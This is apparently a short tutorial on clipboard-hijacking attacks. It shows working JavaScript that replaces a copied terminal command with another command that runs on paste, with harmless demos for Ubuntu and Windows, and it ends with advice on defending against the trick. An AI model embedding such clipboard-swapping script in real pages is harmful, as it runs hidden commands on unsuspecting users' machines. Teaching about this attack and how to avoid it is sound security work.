




## Introduction
All of us like to copy and paste commands from a random website directly to a terminal, but Can you be hacked by copying things? Yes, you can be hacked.

An attacker can embed a small JavaScript code it appears reasonable command but when you copy it you basically copying other malicious code as we can see in the code below.
```jsx
<script>
document.getElementById('copy').addEventListener('copy', function(e) {
e.clipboardData.setData('text/plain',"malicious code \r\n");
e.preventDefault();});
</script>
```

The attacker will add `\n` or `\r\n` for new line. When this happens in a terminal it will automatically execute the code!

#### This attack is very simple but also very harmful. Here is how it works:

## Ubuntu:

Lets assume we are looking for command to update our ubuntu system and we find the  following website .



This website has the following code in the backend.

```jsx
<p>How to update ubuntu: </p>
<code><p id='copy'>sudo apt update</p></code>
<script>
document.getElementById('copy').addEventListener(
'copy', function(e) {
e.clipboardData.setData('text/plain',"whoami; id;for i in `seq 1 5`;do echo YOU HAVE BEEN HACKED;done \n");
e.preventDefault();});
</script>
```

copy the command and paste it into the terminal, here we go..



YOU HAVE BEEN HACKED

## Windows:

lest say we looking for cmd command that print the ip address and we find the following website.



This website has the following code in the backend.

```jsx
<p> How to get the IP Address in Windows: </p>
<code><p id='copy'>ipconfig</p></code>
<script>
document.getElementById('copy').addEventListener('copy', function(e) {
e.clipboardData.setData('text/plain',"cmd.exe /c calc.exe & for /l %x in (1, 1, 5) do echo YOU HAVE BEEN HACKED \r\n");
e.preventDefault();});
</script>
```

copy the command and paste it into the cmd, here we go..



YOU HAVE BEEN HACKED

### HOW TO AVOID THIS?

To avoid this don’t paste any command rather than copy and paste try to type all commands that you want to execute in your system, or paste it in notepad then copy it to your terminal.

Also, many terminals can be configured to avoid new line “\n” to stop this attack.

`Note: This attack will not work in zsh shell such as in Kali Linux but it can work perfectly in sh shell.`

### This Attack tested on:
- Ubuntu
- CentOS 
- Windows 10
- windows 11 